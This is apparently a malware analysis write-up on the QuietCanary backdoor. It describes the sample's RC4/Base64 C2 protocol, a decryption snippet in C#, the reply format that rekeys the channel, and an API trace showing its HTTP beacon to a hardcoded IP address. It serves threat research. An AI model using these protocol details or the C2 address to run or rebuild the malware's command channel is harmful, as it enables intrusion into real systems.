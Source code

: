 Results of dynamic analysis without a working C2 is provided in the [logs_no_c2.txt](https://github.com/cedricg-mirror/reflexions/blob/main/APT/TURLA/QuietCanary/3f94b20cb7f4ff55207660649ebbb02679c991fe03efbcb0bd3840fc7f0bd527/logs_no_c2.txt) file.  

---  

Going further, I decided to use some statical analysis and develop a bare minimum C2 to trigger some additional behavior from the sample :  

![Alt text](screenshots/init.jpg?raw=true "first beaconing")

Statical analysis is very straightforward as this sample isn't obfuscated in any way.

Now, the first beaconing to the C2 is a HTTP GET request with a hardcoded useragent.  
The initial RC4 Key, that the C2 will have to use in reply to that first beaconing, is also visible in that screenshot.   

The following routine tells us how the C2 is expected to reply (Base64(Rc4(reply)) :  

```cs
 using (StreamReader streamReader = new StreamReader(response.GetResponseStream()))
            empty = Encoding.UTF8.GetString(RC4Encryption.EncryptDecrypt(Convert.FromBase64String(streamReader.ReadToEnd()), this.initialKey));
```

After decryption of the reply, QUIETCANARY is expecting the following answer from the C2 :  

![Alt text](screenshots/new_rc4_key.jpg?raw=true "New Rc4 Key")

In other words, the keyword "use" followed by a 10 letters string that is going to be used as a new RC4 key to encrypt communications.  

---  

Now, If you take a look at the provided "logs.txt" file, you will find how this additional knowledge is translated in terms of dynamic behavior :  

Initial beaconing :  

```html
[CNT] [99]
[PTP] [0x784] [0x790] [c:\users\user\desktop\quiet_canary\canary.exe]
[INF] [ Called from Native Image DLL ]
[API] <SealMessage> in [SSPICLI.DLL] 
[PAR] LSA_SEC_HANDLE ContextHandle         : 0x0000002641957A48
[PAR] ULONG          QualityOfProtection   : 0x0
[PAR] PSecBufferDesc MessageBuffers        : 0x000000264195BD10
[FLD]                -> ulVersion = 0x0 (SECBUFFER_VERSION)
[FLD]                -> cBuffers  = 0x4
[FLD]                -> pBuffers  = 0x000000264195BD38
[FLD]                   -> pBuffers[0]
[FLD]                   -> cbBuffer   = 0x5
[FLD]                   -> BufferType = 0x7 (SECBUFFER_STREAM_HEADER)
[FLD]                   -> pvBuffer   = 0x000000264195B9B8
[FLD]                   -> pBuffers[1]
[FLD]                   -> cbBuffer   = 0xed
[FLD]                   -> BufferType = 0x1 (SECBUFFER_DATA)
[FLD]                   -> pvBuffer   = 0x000000264195B9BD
[STR]                   -> "GET / HTTP/1.1\r\nUser-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71."
[STR]                      "0.3578.98 Safari/537.36\r\nCookie: PHPSESSID=ir01w34mah37x1sjingfx92gcm\r\nHost: 210.48.231.182\r\nConnection: Keep-Aliv"
[STR]                      "e\r\n\r\n"
[FLD]                   -> pBuffers[2]
[FLD]                   -> cbBuffer   = 0x24
[FLD]                   -> BufferType = 0x6 (SECBUFFER_STREAM_TRAILER)
[FLD]                   -> pvBuffer   = 0x000000264195BAAA
[FLD]                   -> pBuffers[3]
[FLD]                   -> cbBuffer   = 0x0
```